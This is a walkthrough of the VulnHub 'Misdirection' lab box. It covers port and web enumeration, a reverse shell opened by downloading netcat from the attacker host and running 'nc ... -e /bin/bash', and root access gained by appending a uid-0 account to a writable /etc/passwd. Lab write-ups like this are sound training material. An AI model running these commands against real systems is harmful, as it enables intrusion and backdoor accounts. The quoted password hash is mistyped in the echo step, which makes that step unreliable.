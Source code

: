 ```yaml
---
layout: post
title: "Misdirection - VulnHub"
date: 2020-07-30
excerpt: "Walkthrough for Misdirection on Vulnhub"
tags: [Misdirection, VulnHub, privilege escalation, website enumeration]
comments: false
---
```

Misdirection is labelled as a medium difficulty OSCP style box from [VulnHub]( https://www.vulnhub.com). Below are the steps I took to root this box.

First, I ran **threader3000** to see what ports were open.

![Misdirection threader3000](/assets/img/Misdirection1.png)

Next, let's run **nmap -A p- 22,80,3306,8080 [machine ip]** to further enumerate these ports.

![Misdirection nmap](/assets/img/Misdirection2.png)

It appears that we have both Apache and a Python HTTP server running, along with MySQL and SSH. Let's visit both webpages over ports 80 and 8080 and see what's going on. Over port 80, we have the following:

![Misdirection port 80 website](/assets/img/Misdirection3.png)

Over port 8080, we have a default Apache page:

![Misdirection port 8080 website](/assets/img/Misdirection4.png)

Let's take a deeper look at the one on port 80. There is a **Sign Up** link under **Log In**. Let's create an account.

![Misdirection Sign Up](/assets/img/Misdirection5.png)

Unfortunately, we receive an error when attempting to register both with and without the **Is Manager** box checked.

![Misdirection email error](/assets/img/Misdirection6.png)

A cursory glance around the rest of the site results in not finding anything that stands out. Let's run **gobuster dir -u http://[machine ip]/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php** to enumerate the website over port 80.

![Misdirection gobuster port 80](/assets/img/Misdirection7.png)

We are not able to login to the admin page as it will not load unless over https, and welcome/examples just look like they provide samples for web2py. Let's enumerate the port 8080 website next with **gobuster dir -u http://[machine ip]:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php**.

![](/assets/img/Misdirection8.png)

After looking around, there are several subfolders available, but **/debug** provides you with web console access.

![Misdirection /debug](/assets/img/Misdirection9.png)

Running **whoami** states you are currently running as **www-data** and **sudo -l** states you can run bash as the user **brexit**

![Misdirection sudo -l](/assets/img/Misdirection10.png)

It also appears that netcat is installed. Let's open a shell on our attacker machine with **nc -nvlp 4444**

![Misdirection nc listener](/assets/img/Misdirection11.png)

Back on the p0wny@shell site, the netcat that is on the victim server does not allow for -e. Let's serve up an http server in another terminal window on our attacker machine with **python3 -m http.server**.

![Misdirection python3 http.server](/assets/img/Misdirection13.png)

On the victim machine, navigate to **cd /tmp** and run **wget http://[attacker ip]:8000/nc**. Once downloaded, run **chmod +x nc** to make this version of netcat executable. Now, run ./**nc [attacker ip] 4444 -e /bin/bash** to open a reverse shell on your attacker pc.

![Misdirection copy over nc and open reverse shell](/assets/img/Misdirection14.png)

Next, run **python -c 'import pty; pty.spawn("/bin/bash")'** to upgrade your shell.

![Misdirection upgrade shell](/assets/img/Misdirection15.png)

Now, let's run **sudo -u brexit /bin/bash**. You should now have a shell as the **brexit** user.

![Misdirection brexit user shell](/assets/img/Misdirection16.png)

Now, run **cd ~** and **ls**. The user flag is in this folder. Run **cat user.txt** to get the user flag.

![Misdirection user.txt](/assets/img/Misdirection17.png)

Now, let's copy over linpeas and pspy with **wget http://[attacker ip]:8000/linpeas.sh** and **wget http://[attacker ip]:8000/pspy64**. Next, run **chmod +x pspy64** and **chmod +x linpeas.sh**.

![Misdirection wget](/assets/img/Misdirection18.png)

Next, run **./linpeas.sh** to enumerate the server. It appears that the brexit user can write to the **/etc/passwd** file.

![Misdirection linpeas](/assets/img/Misdirection19.png)

Let's run **perl -le 'print crypt("test","aa")** to get the encrypted form of the password test we need. This should give you **aaqPiZY5xR5l.** Next, run **echo notroot:aaqPiZy5xR5l.:0:0:notroot:/root:/bin/bash >> /etc/passwd** This will add a root user named notroot with the password test. Next, run **su notroot** and enter test for the password when prompted to escalate to root.

![Misdirection root privesc](/assets/img/Misdirection20.png)

Now, just run **cd /root**, followed by **ls** and then finally **cat root.txt** to get the final flag.

![Misdirection root.txt](/assets/img/Misdirection21.png)